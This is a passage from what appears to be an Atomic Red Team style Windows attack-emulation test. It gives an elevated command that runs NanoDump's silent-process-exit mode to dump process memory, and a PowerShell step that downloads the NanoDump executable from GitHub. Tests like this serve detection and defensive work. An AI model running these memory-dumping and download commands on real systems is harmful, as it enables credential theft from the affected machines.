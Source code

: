 
Upon successful execution, you should find the dump file in directory of your choice or "%temp%\SilentProcessExit" by default.

**Supported Platforms:** Windows


**auto_generated_guid:** eb5adf16-b601-4926-bca7-dad22adffb37





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_folder | Folder Path where resulting dump should be placed | path | %temp%&#92;SilentProcessExit|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe --silent-process-exit "#{output_folder}"
```

#### Cleanup Commands:
```cmd
rmdir "#{output_folder}" /s /q >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: NanoDump executable must exist on disk at specified location (PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe)
##### Check Prereq Commands:
```powershell
if (Test-Path PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/fortra/nanodump/blob/2c0b3d5d59c56714312131de9665defb98551c27/dist/nanodump.x64.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe"
```




<br/>
